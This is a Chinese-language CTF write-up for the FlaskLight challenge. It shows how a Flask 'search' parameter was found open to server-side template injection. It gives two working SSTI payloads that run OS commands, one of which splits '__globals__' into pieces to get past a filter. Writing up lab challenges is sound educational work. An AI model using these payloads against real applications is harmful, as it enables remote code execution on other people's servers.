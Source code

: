 # [CSCCTF 2019 Qual]FlaskLight

## 知识点

`SSTI`

`flask`

## 解题

题目首页源码提示传参到`search`,因为是`flask`,尝试`SSTI`的`payload`,发现存在`SSTI`

![](./img/[CSCCTF 2019 Qual]FlaskLight-1.png)

因为这题过滤了`__globals__`

![](./img/[CSCCTF 2019 Qual]FlaskLight-2.png)

用`payload`打的时候`500`了,然后一步步的找,最后发现是过滤了`__globals__`

```python
?search={{().__class__.__bases__[0].__subclasses__()[140].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

![](./img/[CSCCTF 2019 Qual]FlaskLight-3.png)

或者通过`config`可以直接找,构造简单

```lua
?search={{config.__init__['__global'+'s__'].os.popen("whoami").read()}}
```

[参考文章](https://www.cnblogs.com/Article-kelp/p/16050491.html)